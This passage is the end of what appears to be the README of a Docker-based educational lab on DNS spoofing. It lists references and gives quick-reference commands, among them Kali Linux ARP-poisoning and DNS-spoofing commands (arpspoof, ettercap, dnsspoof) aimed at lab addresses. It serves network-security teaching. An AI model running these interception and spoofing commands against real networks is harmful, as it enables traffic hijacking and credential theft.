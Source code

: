 ### DNS Security and DNSSEC
- [OWASP DNS Spoofing](https://owasp.org/www-community/attacks/DNS_Spoofing)
- [RFC 4033 - DNS Security](https://tools.ietf.org/html/rfc4033)
- [DNS over HTTPS (DoH) RFC 8484](https://tools.ietf.org/html/rfc8484)
- [DNS over TLS (DoT) RFC 7858](https://tools.ietf.org/html/rfc7858)

### Network Security Tools and Techniques
- [dnsmasq Documentation](http://www.thekelleys.org.uk/dnsmasq/doc.html)
- [Ettercap Documentation](https://ettercap.github.io/ettercap/)
- [Wireshark User Guide](https://www.wireshark.org/docs/wsug_html_chunked/)
- [ARP Protocol RFC 826](https://tools.ietf.org/html/rfc826)

### Laboratory Environment Extensions
- [Docker Compose Networking](https://docs.docker.com/compose/networking/)
- [FastAPI Documentation](https://fastapi.tiangolo.com/)
- [curl Advanced Usage](https://curl.se/docs/manpage.html)

### Real-world Case Studies
- [DNS Hijacking Incidents and Response](https://www.cisa.gov/news-events/alerts/2019/01/24/dns-infrastructure-hijacking-campaign)
- [BGP and DNS Security](https://www.nist.gov/publications/bgp-and-dns-security)

---

## Appendix: Quick Reference Commands

### Laboratory Startup (Docker Host)
```bash
# Navigate to laboratory directory
cd TFM-Labos/src

# Start the complete environment
docker-compose up -d

# Verify all services are running
docker-compose ps
```

### Kali Linux Attack Commands
```bash
# Enable IP forwarding for MITM attacks
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

# ARP poisoning with arpspoof
sudo arpspoof -i eth0 -t 192.168.1.30 192.168.1.4 &
sudo arpspoof -i eth0 -t 192.168.1.4 192.168.1.30 &

# ARP poisoning with ettercap (alternative)
sudo ettercap -T -i eth0 -M arp:remote /192.168.1.30// /192.168.1.4//

# DNS spoofing with ettercap
echo "goodserver.com A 192.168.1.100" | sudo tee -a /etc/ettercap/etter.dns
sudo ettercap -T -i eth0 -M arp:remote /192.168.1.30// /192.168.1.4// -P dns_spoof

# DNS spoofing with dnsspoof
echo "192.168.1.100 goodserver.com" | sudo tee /tmp/dns_hosts
sudo dnsspoof -i eth0 -f /tmp/dns_hosts host 192.168.1.30
```
